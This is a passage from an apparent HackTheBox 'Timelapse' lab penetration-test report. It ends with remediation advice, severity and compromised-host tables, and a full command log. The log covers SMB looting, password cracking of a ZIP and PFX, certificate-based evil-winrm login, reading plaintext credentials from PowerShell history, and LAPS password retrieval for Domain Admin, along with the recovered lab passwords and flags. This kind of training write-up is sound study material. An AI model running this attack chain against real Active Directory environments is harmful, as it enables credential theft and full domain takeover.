john zip.john -wordlist:/usr/share/wordlists/rockyou.txt.gz
# Result: supremelegacy (cracked in < 1 second)

# PFX cracked:
python3 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john
john pfx.john --wordlist=/usr/share/wordlists/rockyou.txt
# Result: thuglegacy (cracked in < 30 seconds)
```

`Screenshot password-zip.png: John the Ripper cracking the ZIP password to supremelegacy`
`Screenshot password_cracked.png: John the Ripper cracking the PFX password to thuglegacy`

---

## Remediation Summary

### Short Term

- **Finding #1 (LAPS_Readers)** — Remove `svc_deploy` from `LAPS_Readers` immediately and rotate the LAPS-managed Administrator password on `DC01`.
- **Finding #2 (Unauthenticated SMB Share)** — Disable anonymous access on the `Shares` SMB share, require authentication, and remove `winrm_backup.zip` and any other credential or certificate material from shared network locations.
- **Finding #3 (Plaintext Credentials in History)** — Clear `ConsoleHost_history.txt` on all affected systems and rotate the `svc_deploy` password.
- **Finding #4 (Weak Passwords)** — If the `legacyy_dev_auth.pfx` certificate is still in use, re-key and reissue it with a strong, randomly generated passphrase stored in a vault.

### Medium Term

- **Finding #1 (LAPS_Readers)** — Conduct a full audit of `LAPS_Readers` membership across the domain. Document which accounts require LAPS access, to which computers, and revoke all access that cannot be justified. Consider using scoped LAPS permissions rather than granting blanket read access to the entire domain.
- **Finding #2 (Unauthenticated SMB Share)** — Audit all SMB shares across the domain for anonymous or guest access. Enforce authenticated access as a baseline standard via Group Policy.
- **Finding #3 (Plaintext Credentials in History)** — Evaluate disabling PSReadLine history on administrative and server hosts. Train all administrators and engineers on the risk of plaintext credentials in command lines. Implement a secrets management solution so credentials are never typed into interactive consoles.
- **Finding #4 (Weak Passwords)** — Introduce a mandatory minimum password complexity standard for any credential protecting sensitive files or certificates. Require random, vault-stored passphrases for all certificate bundles.

### Long Term

- Implement an Active Directory tiering model (Tier 0/1/2) to isolate Domain Controller administration from service account usage. Service accounts such as `svc_deploy` should never hold privileges that reach Tier-0 assets.
- Deploy a centralised secrets management solution (e.g., Windows DPAPI, Group Managed Service Accounts, or an external vault) to eliminate the practice of embedding credentials in scripts, commands, or files.
- Establish a recurring review of SMB share permissions and Active Directory group memberships to detect permission drift before it can be exploited.
- Implement certificate lifecycle management: all authentication certificates should be tracked, time-limited, and revocable, and their distribution should always require authentication and authorisation.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1: Unauthenticated SMB Enumeration and Certificate Recovery.** Identified and accessed an SMB share without credentials, located a WinRM authentication certificate archive, and determined the significance of the PFX file type for certificate-based authentication. Recognised the naming convention in `legacyy_dev_auth.pfx` as an indicator of the target account.

**Skill/Technique 2: Offline Password Cracking Against Archives and Certificate Files.** Applied `zip2john` and `pfx2john` to extract crackable hashes from a protected ZIP archive and a PFX certificate file respectively. Used John the Ripper with the `rockyou.txt` wordlist to recover both passwords quickly, then used `openssl` to extract the certificate and private key from the decrypted PFX bundle.

**Skill/Technique 3: Certificate-Based WinRM Authentication.** Demonstrated certificate-based authentication to WinRM over SSL using Evil-WinRM with the `-c` (certificate) and `-k` (key) flags — a less commonly practised foothold technique compared to password or hash-based authentication.

**Skill/Technique 4: Credential Discovery via PowerShell Command History.** Located and read the `PSReadLine` `ConsoleHost_history.txt` file as a post-exploitation enumeration step, recovering a plaintext service account password embedded in a previous administrator command. This demonstrates the importance of checking shell history files during any Windows post-exploitation phase.

**Skill/Technique 5: LAPS Password Disclosure via Overpermissive Group Membership.** Identified `svc_deploy`'s membership in `LAPS_Readers` via `net user`, understood the implication of that membership, and used `Get-ADComputer` with the `ms-Mcs-AdmPwd` attribute to retrieve the Domain Controller's local Administrator password in plaintext — achieving full domain compromise from a single group membership.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ---------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host                      | Method                                                 | Notes                                                          |
| ------------------------- | ------------------------------------------------------ | -------------------------------------------------------------- |
| `10.129.227.113:445`      | Unauthenticated SMB access                             | `winrm_backup.zip` and `legacyy_dev_auth.pfx` downloaded      |
| `10.129.227.113:5986`     | Certificate-based WinRM authentication                 | Interactive shell as `timelapse\legacyy` — user.txt captured   |
| `10.129.227.113:5986`     | Credential-based WinRM (password from history file)    | Interactive shell as `timelapse\svc_deploy`                    |
| `dc01.timelapse.htb:5986` | LAPS password retrieval + credential-based WinRM       | Full administrative shell as `Administrator` — root.txt captured |

### C. Compromised Users / Credentials

| Username        | Method                                                     | Notes                                                    |
| --------------- | ---------------------------------------------------------- | -------------------------------------------------------- |
| `legacyy`       | Certificate-based WinRM with PFX extracted from SMB share  | Initial foothold; user.txt captured                      |
| `svc_deploy`    | Plaintext password recovered from PowerShell history file  | Member of `LAPS_Readers`; pivot to Administrator         |
| `Administrator` | LAPS password retrieved via `svc_deploy` LAPS_Readers membership | Full domain compromise; root.txt captured           |

### D. Command Reference Log

```bash
# ──────────────────────────────────────────────
# PHASE 1: RECONNAISSANCE & ENUMERATION
# ──────────────────────────────────────────────
sudo nmap 10.129.227.113 -sC -sV -Pn
echo "10.129.227.113 timelapse.htb dc01.timelapse.htb" | sudo tee -a /etc/hosts

smbclient -L //10.129.227.113/
smbclient //10.129.227.113/Shares
dir
cd Dev
get winrm_backup.zip
exit

# ──────────────────────────────────────────────
# PHASE 2: PASSWORD CRACKING & CERTIFICATE EXTRACTION
# ──────────────────────────────────────────────
unzip winrm_backup.zip
# (prompts for password — cracking required)

zip2john winrm_backup.zip > zip.john
john zip.john -wordlist:/usr/share/wordlists/rockyou.txt.gz
# Password: supremelegacy

unzip winrm_backup.zip
# Enter password: supremelegacy

python3 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john
john pfx.john --wordlist=/usr/share/wordlists/rockyou.txt
john pfx.john --show
# Password: thuglegacy

openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
# Enter Import Password: thuglegacy

# ──────────────────────────────────────────────
# PHASE 3: INITIAL FOOTHOLD
# ──────────────────────────────────────────────
evil-winrm -i 10.129.227.113 -c cert.pem -k key.pem -S
whoami
# timelapse\legacyy

cd ..
cd Desktop
more user.txt
# 529511c64e4ac01f714bbcd3d66dd48e

# ──────────────────────────────────────────────
# PHASE 4: POST-EXPLOITATION & LATERAL MOVEMENT
# ──────────────────────────────────────────────
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
# Reveals: E3R$Q62^12p7PLlC%KWaxuaV (svc_deploy password)

evil-winrm -i 10.129.227.113 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
whoami
# timelapse\svc_deploy

net user svc_deploy
# LAPS_Readers confirmed

# ──────────────────────────────────────────────
# PHASE 5: LAPS ABUSE & FULL COMPROMISE
# ──────────────────────────────────────────────
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | Select-Object Name, ms-Mcs-AdmPwd
# DC01: -%rY3e0A.,)U6k1Q%3TbA2a8

evil-winrm -i 10.129.227.113 -u administrator -p '-%rY3e0A.,)U6k1Q%3TbA2a8' -S
Get-ChildItem -Path C:\ -Filter "root.txt" -Recurse -ErrorAction SilentlyContinue
more C:\users\trx\desktop\root.txt
# dc460e07f0201b673e068c83a3ebc1f6
```

### E. References

- [MITRE ATT&CK: T1135 — Network Share Discovery](https://attack.mitre.org/techniques/T1135/)
- [MITRE ATT&CK: T1552.004 — Unsecured Credentials: Private Keys](https://attack.mitre.org/techniques/T1552/004/)
- [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/)
- [MITRE ATT&CK: T1552.003 — Unsecured Credentials: Bash History](https://attack.mitre.org/techniques/T1552/003/)
- [MITRE ATT&CK: T1069.002 — Permission Groups Discovery: Domain Groups](https://attack.mitre.org/techniques/T1069/002/)
- [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- [CWE-312: Cleartext Storage of Sensitive Information](https://cwe.mitre.org/data/definitions/312.html)
- [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [Microsoft LAPS Documentation](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)
- [Official HackTheBox Timelapse Machine Page](https://app.hackthebox.com/machines/Timelapse)

> **Note on CVEs:** No CVEs apply to this assessment. All findings are misconfigurations, insecure credential storage practices, and over-permissive access control decisions rather than vulnerabilities in versioned third-party software with public CVE assignments. Remediation is therefore configuration- and process-based.
